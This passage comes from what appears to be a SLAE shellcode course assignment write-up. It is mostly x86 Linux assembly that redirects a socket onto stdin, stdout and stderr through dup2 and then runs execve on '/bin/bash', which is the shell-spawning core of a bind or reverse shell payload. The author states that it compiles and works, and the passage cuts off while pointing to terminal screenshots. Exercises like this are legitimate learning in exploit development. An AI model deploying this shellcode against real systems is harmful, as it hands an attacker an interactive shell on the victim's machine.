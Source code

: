 ```asm
    mov ebx, eax    ; Ref to socketid
    xor eax, eax    ; Zero-out EAX
    xor ecx, ecx    ; Zero-out ECX
    mov al, 0x3f    ; SYS_DUP2
    int 0x80        ; Exec syscall
    ; dup2(socketid, 1)
    xor eax, eax    ; Zero-out EAX
    mov al, 0x3f    ; SYS_DUP2
    inc ecx         ; 1
    int 0x80        ; Exec syscall
    ;dup2(socketid, 2)
    xor eax, eax    ; Zero-out EAX
    mov al, 0x3f    ; SYS_DUP2
    inc ecx         ; 2
    int 0x80        ; Exec syscall

    ; execve("////bin/bash", NULL, NULL)
    xor eax, eax    ; Zero-out EAX
    mov al, 0x0b    ; SYS_EXECVE
    push edx        ; NULL-character on stack
    push 0x68736162 ; "hsab"
    push 0x2f6e6962 ; "/nib"
    push 0x2f2f2f2f ; "////"
    mov ebx, esp    ; Ref to "////bin/bash" from stack
    mov ecx, edx    ; NULL
    int 0x80
```

When we compile and run this code, we can see that it works:
Terminal 1:
![Terminal 1](https://raw.githubusercontent.com/mrpapercut/SLAE/master/assignment1/images/shellcode-terminal1.png)

Terminal 2: